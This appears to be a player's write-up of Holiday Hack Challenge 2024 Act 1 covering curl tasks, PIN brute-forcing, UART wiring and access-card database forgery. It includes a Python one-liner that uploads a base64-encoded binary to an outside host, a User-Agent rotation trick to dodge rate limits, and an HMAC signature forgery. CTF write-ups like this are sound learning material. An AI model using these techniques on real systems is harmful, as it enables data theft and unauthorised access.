

# Act 1

[Back to main](../README.md)

Act 1 had more challenges that, generally, were less game focused.

## Challenge 1: curling

The curling challenge revolved around the use of the `curl` command to carry out various tasks. You are presented with a terminal with which you need to interact:


### Silver

Silver was straightforward - I just needed to answer the following questions

1) Unlike the defined standards of a curling sheet, embedded devices often have web servers on non-standard ports.  Use curl to retrieve the web page on host "curlingfun" port 8080.

```bash
curl curlingfun:8080
```

2) Embedded devices often use self-signed certificates, where your browser will not trust the certificate presented.  Use curl to retrieve the TLS-protected web page at https://curlingfun:9090/

```bash
curl -k https://curlingfun:9090
```

3) Working with APIs and embedded devices often requires making HTTP POST requests. Use curl to send a request to https://curlingfun:9090/ with the parameter "skip" set to the value "alabaster", declaring Alabaster as the team captain.

```bash
curl -k --data "skip=alabaster" https://curlingfun:9090
```

4) Working with APIs and embedded devices often requires maintaining session state by passing a cookie.  Use curl to send a request to https://curlingfun:9090/ with a cookie called "end" with the value "3", indicating we're on the third end of the curling match.

```bash
curl -k -H "Cookie: end=3;" https://curlingfun:9090
```

5) Working with APIs and embedded devices sometimes requires working with raw HTTP headers.  Use curl to view the HTTP headers returned by a request to https://curlingfun:9090/

```bash
curl -k -I https://curlingfun:9090
```

6) Working with APIs and embedded devices sometimes requires working with custom HTTP headers.  Use curl to send a request to https://curlingfun:9090/ with an HTTP header called "Stone" and the value "Granite".

```bash
curl -k -H "Stone: Granite" https://curlingfun:9090
```

7) curl will modify your URL unless you tell it not to.  For example, use curl to retrieve the following URL containing special characters: https://curlingfun:9090/../../etc/hacks

```bash
curl -k --path-as-is https://curlingfun:9090/../../etc/hacks
```

`Great work! Once HHC grants your achievement, you may close this terminal.`

Yay!

### Gold

To locate the gold challenge, I ran the `ls` command

```bash
alabaster@curlingfun:~$ ls
HARD-MODE.txt  HELP
```

I then needed to read `HARD-MODE.txt` to get the instructions:

```bash
alabaster@curlingfun:~$ cat HARD-MODE.txt 
Prefer to skip ahead without guidance?  Use curl to craft a request meeting these requirements:

- HTTP POST request to https://curlingfun:9090/
- Parameter "skip" set to "bow"
- Cookie "end" set to "10"
- Header "Hack" set to "12ft"
```

This is similar to previous solutions:

```bash
curl -k --data "skip=bow" -H "Cookie: end=10;" -H "Hack: 12ft" https://curlingfun:9090/
```

Which works and responds with:

```bash
Excellent!  Now, use curl to access this URL: https://curlingfun:9090/../../etc/button
```

Naturally:

```bash
alabaster@curlingfun:~$ curl -k --path-as-is https://curlingfun:9090/../../etc/button

Great!  Finally, use curl to access the page that this URL redirects to: https://curlingfun:9090/GoodSportsmanship
```

Not too bad:

```bash
alabaster@curlingfun:~$ curl -k -L https://curlingfun:9090/GoodSportsmanship

Excellent work, you have solved hard mode!  You may close this terminal once HHC grants your achievement.
```

That's a wrap on Gold!

## Challenge 2: Frosty Keys

Frosty keys is a slightly more interesting challenge involving discovering the PINs for an ATM-like machine.


### Silver

The Silver challenge can be solved via brute force or informed guessing, but we'll save that for later and instead look at intended solutions.

#### Discovering the digits - With Light

Before completing this challenge, you are instructed to find a UV flashlight to look at the keypad with. When doing so, I could shine it over the numbers and see how they are used:


Using this method, I determined that the character set is `2,6,7,8`.

#### Discovering the digits - With Javascript

I examined the game's source code and found the list of keys that would be highlighted:

```javascript
// check if flashlight is over special keys
        function checkOverlap() {
            clearOverlays();
            const keysToCheck = ['2', '7', '6', '8', 'Enter'];
```

This reveals the same list of `2,6,7,8`. Realistically, this was enough to guess the solution with a quick glance, but I'll follow through with the intended solution.

#### Decoding the Sticky Note

When I clicked on the sticky note it was shown much more clearly:


Using the [book](https://frost-y-book.com/) we were instructed to find before the challenge, each of these sets of numbers corresponds to `[page]:[word]:[char]` for a total of 5 characters:


The first hint corresponds to the character `S` as it is the first character of the sixth word of the second page of the book, 2:6:1. The rest of the characters follow below:

| Hint   | Character | Telephone key |
| ------ | --------- | ------------- |
| 2:6:1  | S         | 7             |
| 4:19:3 | A         | 2             |
| 6:1:1  | N         | 6             |
| 3:10:4 | T         | 8             |
| 14:8:3 | A         | 2             |
This method of encoding is known as an Ottendorf Cipher, which is alluded to in the game's source:

```javascript
this.load.image('note', '/static/images/note.png'); // note about Ottendorf
```

After decoding the cipher, I discovered the secret word was `SANTA`. Unsurprisingly, these characters all corresponded to the characters `2,6,7,8` previously discovered, so entering it encoded as `72682` and pressing enter on the keypad was successful for getting Silver.


Upon success, you are rewarded with a file named `shreds.zip` to be used in [Challenge 3: Hardware Hacking 101 Part 1](#### Challenge 3: Hardware Hacking 101 Part 1)

### Gold

The hints point to another solution and suggest you should brute force to get it.  To carry this out, I made two assumptions:

1. The character set would be the same, remaining `2,6,7,8`.
2. The length of the code would remain the same, specifically five characters wrong.

This combination meant an upper bound of 1024 pins, which was small enough to not worry about getting wrong.

When submitting a code (pressing Enter), the browser issues the following request:

```http
POST /submit?id=null HTTP/2
Host: hhc24-frostykeypad.holidayhackchallenge.com
Cookie: ...headers omitted for brevity...

{"answer":"72682"}
```

I used Burp Intruder to quickly carry out the brute force attack with minimal work, with the following configuration:



This began working, but I was quickly met with errors in Burp as the API started returning 429 errors. Disabling Automatic Throttling or manually triggering the 429 in Repeater revealed the the error message returned from the server was:

```http
HTTP/2 429 Too Many Requests
...omitted for brevity...

{"error":"Too many requests from this User-Agent. Limited to 1 requests per 1 seconds."}
```

Seeing that the filtering was being carried out by `User-Agent` was unusual, so I modified the Intruder parameters to also change the `User-Agent` by inserting another payload position at the end of that header and setting Intruder to Battering Ram mode:


This stopped the errors and eventually revealed a 200 response for the code `22786`:


Far out!

## Challenge 3: Hardware Hacking 101 Part 1

Hardware Hacking 101 Part 1 revolves around connecting to Santa's Little Helper (SLH) using a NP2103 UART Bridge (a clear play on the CP2103 USB-to-UART bridge) in an attempt to get a shell. Opening the challenge you are shown a visual representation of the SLH, the bridge, and a USB terminal device:


### Silver

#### Reconstruction - `shreds.zip`

`shreds.zip` contained 1000 `1x1000` pixel images that vaguely looked like they belonged together in one big `1000x1000` pixel image. In one of the hints, Marcel Nougat gave me a link to [heuristic_edge_detection.py](https://gist.github.com/arnydo/5dc85343eca9b8eb98a0f157b9d4d719) to help reconstruct the image. I needed to install some libraries (I think it requires `pillow` and `numpy`), but after that it was pretty simple to run, yielding:


This was readable enough, but I didn't *actually* do the above at first. Before I noticed the hint, I asked ChatGPT to reassemble it and got:


This scroll gave me the UART configuration listed below:

| Parameter                       | Value  |
| ------------------------------- | ------ |
| Baud                            | 115200 |
| Parity                          | Even   |
| Data                            | 7 bits |
| Stop bits ("stoppits" \[sic]\]) | 1 bit  |
| Flow Control                    | RTS    |

Moving on...

#### Wiring

The NP2103 had labels but the SLH did not, so I just assumed that the pinouts were the same between the two (I noticed SLH *was* labelled while writing up and I hadn't noticed, so that is highlighted below) . I clicked the USB cable to connect the NP2103 to the terminal device and clicked the power button to turn it on:


Just make sure you swap the TX and RX wires between the two devices - if the SLH is transmitting on a specific pin (TX) you want that to go to the NP2103's receive pin (RX).

I used the arrow keys to configure the UART parameters and made sure to set the Port to `USB0` for the USB cable:


I clicked start:


And got the no-no smoke. A quick look at the NP2103 revealed a voltage switch, which I changed from `5v` to `3v` and clicked start again:


That's Silver. Yippee!

### Gold

 Gold doesn't require you to use the graphical UI. I examined `main.js` and found the following hint:
 
```javascript
// Build the URL with the request ID as a query parameter
// Word on the wire is that some resourceful elves managed to brute-force their way in through the v1 API.
// We have since updated the API to v2 and v1 "should" be removed by now.
// const url = new URL(`${window.location.protocol}//${window.location.hostname}:${window.location.port}/api/v1/complete`);
const url = new URL(`${window.location.protocol}//${window.location.hostname}:${window.location.port}/api/v2/complete`);
```

This implied that `v2` was not good and `v1` was what I was after. I intercepted the submission from my original solve and modified it to submit to `v1`:

```http
POST /api/v1/complete HTTP/2
Host: hhc24-hardwarehacking.holidayhackchallenge.com
Cookie: ...headers omitted for brevity...

{"requestID":"[REDACTED]","serial":[3,9,2,2,0,3],"voltage":3}
```

And this gave me Gold!

## Challenge 4: Hardware Hacking 101 Part 2

Hardware Hacking 101 Part 2 presents you with a shell on the Santa's Little Helper (SLH) device. Initially, it gives you the option to boot or modify u-boot parameters, but u-boot is a fake (I attempted to `setenv bootargs init=/bin/bash` to get `root`, but the u-boot environment doesn't seem functional) so that was just a fun reference to real embedded environments:


The goal of this challenge is to grant administrative rights to id `42` in Santa's Little Helper.

### Red Herring - u-Boot

So one of the first options is a U-Boot console, which looked a bit off to me from the get-out. Das U-Boot is a bootloader common in embedded devices and, as such, can generally be used to influence the boot behavior of a device. Common ways to do this are by changing `bootargs` to set `init=/bin/sh` to immediately grab a root shell or causing a different boot image to be loaded, in a similar fashion. For the most part, this instance of "u-boot" wouldn't actually save the majority of `setenv` commands and only responded to those associated with `tftp` booting (the `tftp` boot normally fails). Notably, the `ping` command returned the error `No route to hose` - an obvious deviation from expectations. With enough horseplay, I was able to get it to puke up some Python stack traces (which I didn't save), so I moved on instead of digging into this dead-end.

However, after completing Gold (and I had written up the majority of this document), another player started asking about the U-Boot menu. I stated that it seemed to be a dead end and got a response from a mod:


And I took that personally, so I started to prove him wrong.

In the shell normally intended for solving the challenges, there was a `entrypoint.sh` script (used to kick off activity in this container) that explained how the challenge worked:

```bash
slh@slhconsole\> cat /entrypoint.sh 
#!/bin/bash

# Run the HMAC checking  as root
/root/check_hmac &

# Get the PID of the background process if needed
HMAC_PID=$!

# Switch to the slh user to run the main application
su -c "/usr/bin/main" slh

# Optionally wait for the background process (HMAC checking script)
```

This script showed that there were two main processes running the challenge, `/root/check_hmac` and `/usr/bin/main`. Since `main` appeared to be what we were interacting with, I went about extracting that from the server.

Most of the easy methods were not present on the system; the container did not have `nc`, `curl`, `wget`, `scp`, or any other number of file transfer tools. It did, however, have `base64` available for encoding binaries into ASCII, and `python3` available for general scripting. Using the [GTFOBins Python file upload](https://gtfobins.github.io/gtfobins/python/#file-upload) script, I was able to extract `main` like so:

```bash
slh@slhconsole\> base64 /usr/bin/main > /tmp/main.b64
slh@slhconsole\> export URL=http://mydomain.url/
export LFILE=/tmp/main.b64
python3 -c 'import sys; from os import environ as e
if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
else: import urllib as u, urllib2 as r
r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
```

I then `urldecode` and `base64 -d` the file and ran `strings` to discover a handful of Python and `.pyc` file references, implying it was a `pyinstaller` compiled executable file. I used `pyinstxtractor` to extract the compiled `.pyc` files and then [PyLingual](https://pylingual.io/) to decompile `main.pyc`. Most of it is run-of-the mill "print the text and read the input" Python code, but some relevant highlights are snipped below:

```python
    def boot(self, arg):
        """Simulate booting process"""
        print(BOOT_STRING)
        for i in range(21):
            sys.stdout.write('\r')
            sys.stdout.write('[%-20s] BOOTING' % ('=' * i))
            sys.stdout.flush()
            time.sleep(0.25)
        print('\n\n')

    def do_ping(self, arg):
        """Ping a network host"""
        if arg == '192.168.54.32':
            for seq, time in enumerate([27.5, 23.4, 25.3, 21.0], start=1):
                print(f'64 bytes from 192.168.54.32: icmp_seq={seq} ttl=58 time={time} ms')
                time.sleep(0.5)
        elif re.match('^(\\d{1,3}\\.){3}\\d{1,3}$', arg):
            print('Not route to hose')
        else:
            print('send ICMP ECHO_REQUEST to network host')

    def do_printenv(self, arg):
        """Print environment variables"""

    def do_tftpboot(self, arg):
        """Boot image via network using TFTP protocol"""
        global launch_terminal
        print("*** Warning: no boot file name; using 'C0A80101.img'")
        print('Using eth@1e100000 device')
        serverip = arg.split()[0] if arg.split() and is_valid_ip(arg.split()[0]) else self.serverip
        print(f'TFTP from server {serverip}; our IP address is {self.ipaddr}')
        print(f"Filename '{self.bootfile}'.")
        print('Load address: 0x80010000')
        print('Loading: ')
        sleep_random()
        if serverip != '192.168.54.32' or self.netmask != '255.255.255.0' or self.ipaddr != '192.168.54.1':
            print('ARP Retry count exceeded; starting again')
            return
        if self.bootfile != 'backup.img':
            print(f'{self.bootfile} not found or invalid.')
            return
        print_asterisks(4)
        self.boot(arg)
        launch_terminal = True
        return True
```

This file built a fake implementation of U-Boot that only allows for `tftp` parameters to be changed. All commands were outputting essentially static output to pretend to be a command. If you set the `serverip` parameter to `192.168.54.32` and the `bootimg` parameter to to `backup.img`, the `tftp` command succeeded and called `this.boot(arg)`, passing the `arg` variable along to `boot()`. However, the implementation of `boot()` made no use of `arg`, meaning this call to boot was the same as if you selected the `1. Startup system (Default)` option. No other relevant functionality appeared in `main.py`, showing this to be dead.

Basta!
### Silver

To start, I selected option 1 to boot into a bash terminal and was greeted with usage instructions for the `slh` command:

```bash
--------------------------------------------------------
                   ___     _      _  _   
                  / __|   | |    | || |  
                  \__ \   | |__  | __ |  
                  |___/   |____| |_||_|  
                _|"""""|_|"""""|_|"""""| 
                "`-0-0-'"`-0-0-'"`-0-0-' 
--------------------------------------------------------
  Santa's Little Helper - Access Card Maintenance Tool

          Tool Name: slh

options:
  -h, --help            show this help message and exit
  --view-config         View current configuration.
  --view-cards          View current values of all access cards.
  --view-card ID        View a single access card by ID.
  --set-access ACCESS_LEVEL
                        Set access level of access card. Must be 0 (No Access) or 1 (Full Access).
  --id ID               ID of card to modify.
  --passcode PASSCODE   Passcode to make changes.
  --new-card            Generate a new card ID.
--------------------------------------------------------
```

This appears to require a passcode, but I decided to try without one anyway:

```bash
slh@slhconsole\> slh --set-access 1 --id 42
Invalid passcode. Access not granted.
```

Since that didn't work, I needed to find the passcode. Running `ls` revealed a `.bash_history` file:

```bash
slh@slhconsole\> ls -lha
total 156K
drwxrwxr-t 1 slh  slh  4.0K Nov 13 14:44 .
drwxr-xr-x 1 root root 4.0K Nov 13 14:44 ..
-r--r--r-- 1 slh  slh   518 Oct 16 23:52 .bash_history
-r--r--r-- 1 slh  slh  3.9K Sep 23 20:02 .bashrc
-r--r--r-- 1 slh  slh   807 Sep 23 20:02 .profile
-rw-r--r-- 1 root root 128K Nov 13 14:44 access_cards     
slh@slhconsole\> cat .bash_history 
...omitted for brevity...
slh --passcode CandyCaneCrunch77 --set-access 1 --id 143
...omitted for brevity...
```

There is a line with the password `CandyCaneCrunch77` in it being used to set id `143` to admin (`1`). I changed the id to `42` and ran the command:

```bash
slh@slhconsole\> slh --passcode CandyCaneCrunch77 --set-access 1 --id 42 

Card 42 granted access level 1.
```

Fin.

### Gold

To solve Gold, the elves state you should modify the program's database directly and provide a link to a [CyberChef recipe](https://gchq.github.io/CyberChef/#recipe=HMAC(%7B'option':'UTF8','string':''%7D,'SHA256')) for a hashing algorithm.

I first tried to find the database:

```bash
slh@slhconsole\> ls -lha
total 156K
drwxrwxr-t 1 slh  slh  4.0K Nov 13 14:44 .
drwxr-xr-x 1 root root 4.0K Nov 13 14:44 ..
-r--r--r-- 1 slh  slh   518 Oct 16 23:52 .bash_history
-r--r--r-- 1 slh  slh  3.9K Sep 23 20:02 .bashrc
-r--r--r-- 1 slh  slh   807 Sep 23 20:02 .profile
-rw-r--r-- 1 root root 128K Nov 13 14:44 access_cards
slh@slhconsole\> file access_cards 
access_cards: SQLite 3.x database, last written using SQLite version 3040001, file counter 4, database pages 32, cookie 0x2, schema 4, UTF-8, version-valid-for 4
```

Using `file`, I discovered a file `access_cards` that was a [`sqlite`](https://www.sqlite.org/) database. I used the `sqlite3` command to open and explore the database:

```sql
SQLite version 3.40.1 2022-12-28 14:03:47
sqlite> .schema
CREATE TABLE access_cards (
            id INTEGER PRIMARY KEY,
            uuid TEXT,
            access INTEGER,
            sig TEXT
        );
CREATE TABLE config (
            id INTEGER PRIMARY KEY,
            config_key TEXT UNIQUE,
            config_value TEXT
        );
sqlite> select * from config;
1|hmac_secret|9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e
2|hmac_message_format|{access}{uuid}
3|admin_password|3a40ae3f3fd57b2a4513cca783609589dbe51ce5e69739a33141c5717c20c9c1
4|app_version|1.0
sqlite> select * from access_cards where id = 42;
42|c06018b6-5e80-4395-ab71-ae5124560189|0|ecb9de15a057305e5887502d46d434c9394f5ed7ef1a51d2930ad786b02f6ffd
sqlite> select * from access_cards where id = 143;
```

All the relevant information was listed in the combination of `config` and `access_cards`:

| Config Parameter    | Value                                                            |
| ------------------- | ---------------------------------------------------------------- |
| hmac_secret         | 9ed1515819dec61fd361d5fdabb57f41ecce1a5fe1fe263b98c0d6943b9b232e |
| hmac_message_format | {access}{uuid}                                                   |

| Card ID | UUID                                 | Permission |
| ------- | ------------------------------------ | ---------- |
| 42      | c06018b6-5e80-4395-ab71-ae5124560189 | 0          |

I plugged this information into CyberChef:


I updated the database with this signature:

```sql
sqlite> update access_cards set access=1, sig="135a32d5026c5628b1753e6c67015c0f04e26051ef7391c2552de2816b1b7096" where id=42;
sqlite> 
       *   *   *   *   *   *   *   *   *   *   *
   *                                             *
*      ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄  ❄     *
 *  $$$$$$\   $$$$$$\   $$$$$$\  $$$$$$$$\  $$$$$$\   $$$$$$\  * 
  * $$  __$$\ $$  __$$\ $$  __$$\ $$  _____|$$  __$$\ $$  __$$\ *
   *$$ /  $$ |$$ /  \__|$$ /  \__|$$ |      $$ /  \__|$$ /  \__| *
    $$$$$$$$ |$$ |      $$ |      $$$$$\    \$$$$$$\  \$$$$$$\   
   *$$  __$$ |$$ |      $$ |      $$  __|    \____$$\  \____$$\  *
  * $$ |  $$ |$$ |  $$\ $$ |  $$\ $$ |      $$\   $$ |$$\   $$ | *
*   $$ |  $$ |\$$$$$$  |\$$$$$$  |$$$$$$$$\ \$$$$$$  |\$$$$$$  |   *
 *  \__|  \__| \______/  \______/ \________| \______/  \______/  *
*         *    ❄             ❄           *        ❄    ❄    ❄   *
   *        *     *     *      *     *      *    *      *      *
   *  $$$$$$\  $$$$$$$\   $$$$$$\  $$\   $$\ $$$$$$$$\ $$$$$$$$\ $$$$$$$\  $$\  *
   * $$  __$$\ $$  __$$\ $$  __$$\ $$$\  $$ |\__$$  __|$$  _____|$$  __$$\ $$ | *
  *  $$ /  \__|$$ |  $$ |$$ /  $$ |$$$$\ $$ |   $$ |   $$ |      $$ |  $$ |$$ |*
  *  $$ |$$$$\ $$$$$$$  |$$$$$$$$ |$$ $$\$$ |   $$ |   $$$$$\    $$ |  $$ |$$ | *
 *   $$ |\_$$ |$$  __$$< $$  __$$ |$$ \$$$$ |   $$ |   $$  __|   $$ |  $$ |\__|*
  *  $$ |  $$ |$$ |  $$ |$$ |  $$ |$$ |\$$$ |   $$ |   $$ |      $$ |  $$ |   *
*    \$$$$$$  |$$ |  $$ |$$ |  $$ |$$ | \$$ |   $$ |   $$$$$$$$\ $$$$$$$  |$$\ *
 *    \______/ \__|  \__|\__|  \__|\__|  \__|   \__|   \________|\_______/ \__|  *
  *                                                            ❄    ❄    ❄   *
   *      *    *    *    *    *    *    *    *    *    *    *    *    *    *       
```

Now Act 1 is done!

## Conclusion

Act 1 started to introduce more technical contents to the challenge. Can't wait for [Act 2](../act2/README.md)!
